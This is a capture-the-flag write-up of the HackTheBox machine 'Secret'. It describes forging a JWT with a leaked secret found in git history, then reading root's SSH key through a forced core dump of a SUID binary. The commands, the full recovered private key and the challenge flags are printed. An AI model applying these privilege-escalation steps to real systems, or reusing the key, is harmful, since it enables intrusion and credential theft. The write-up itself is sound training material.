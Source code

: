 Title: HTB: Secret
Date: 03-28-2022 12:11
category:security
tags:security, boot2root, HTB, jwt, core dump
meta:security, boot2root, HTB, jwt, core dump

<img class="align-left" src="/media/2022.03/secret_card.png" alt="Secret" width="262">

This is a writeup about a retired HacktheBox machine:
[Secret](https://www.hackthebox.com/home/machines/profile/408) publish on
October 30, 2021 by
[z9fr](https://www.hackthebox.com/home/users/profile/485024).
This box is rated as an easy machine. It implies a JWT token and its secret, as
well as a program core dump.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Only a few ports are open: 22(SSH), 80 (HTTP) and 3000(also an HTTP service
here).

![nmap](/media/2022.03/secret_nmap.png)

The website on port 3000, provide an API and its documentation. We can download
the source code from the site. Looking at the different commit we found that
the commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 "removed .env for security reasons"
might be interesting.

![git log](/media/2022.03/secret_gitlog.png)


We look at the `git diff` for this specific commit and found the non redacted
`TOKEN_SECRET` for the application.

![git diff](/media/2022.03/secret_gitdiff.png)

We create a python script that allow to interact with the API to create an
account, leveraging the known token secret to change our name to 'theadmin'
using [jwt_tool](https://github.com/ticarpi/jwt_tool)
putting our SSH public key on the box for the 'dasith' user.

[![https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee](/media/2022.03/secret_l.py.png)](https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee)

We can then connect using SSH and get the user flag.

    :::text
    $ ssh dasith@10.129.173.112
    dasith@secret:~$ cat user.txt
    7eb18a62ea270f0da664dac963a7fa05

# Root

Looking at the available file and specifically the SUID ones we found interesting
stuff in `/opt` as there is a `valgrind.log` file, a `code.c` file and a SUID
compiled binary. The presence of the [valgrind](https://valgrind.org/) file
hint us that the binary allow for core dump.

We run the SUID binary and enumerate the `/root/` and the `/root/.ssh/` folders.
There is a private SSH key that we want to retrieve.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/
    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm
    drwx------      .ssh

    Total entries       = 15
    Regular files       = 4
    Directories         = 10
    Symbolic links      = 1
    Save results a file? [y/N]: n

    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/
    drwx------      ..
    -rw-------      authorized_keys
    -rw-------      id_rsa
    drwx------      .
    -rw-r--r--      id_rsa.pub

    Total entries       = 5
    Regular files       = 3
    Directories         = 2
    Symbolic links      = 0
    Save results a file? [y/N]: n

We run the program again and this time we "read" the SSH key. We then put the
program on background with <CTRL+Z> and send a
[Segmentation Fault (SIGSEV)](https://en.wikipedia.org/wiki/Segmentation_fault)
to the application using `kill` and put it back in the foreground generating a
core dump.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/id_rsa

    Total characters = 2602
    Total words      = 45
    Total lines      = 39
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps
        PID TTY          TIME CMD
      1377 pts/0    00:00:00 bash
      1427 pts/0    00:00:00 count
      1456 pts/0    00:00:00 ps
    dasith@secret:/opt$ kill -SIGSEGV 1427
    dasith@secret:/opt$ fg
    -bash: fg: job has terminated
    [1]+  Segmentation fault      (core dumped) ./count

We use `appor-unpack` to unpack our core dump file and look for the SSH key in
it.

    :::text
    dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/p
    dasith@secret:/opt$ strings /tmp/p/CoreDump
    <SNIP>
    Save results a file? [y/N]: l words      = 45
    Total lines      = 39
    /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----

We save the SSH key and use it to connect to the box and grab the root flag.

    :::text
    └─$ ssh root@10.129.173.112 -i id_rsa_root
    root@secret:~# cat root.txt
    bb59318145fdf4a7ea1f50e6c829141c

# Wrapping up

An interesting box quit quick if you know what to do! The root part was harder
for me as I never exploited that before.
Also I tested some novelty in this article with the
[carbon](https://carbon.now.sh/) code snippet not sure to keep it that way as it
make it harder to copy paste and grep information from the article.

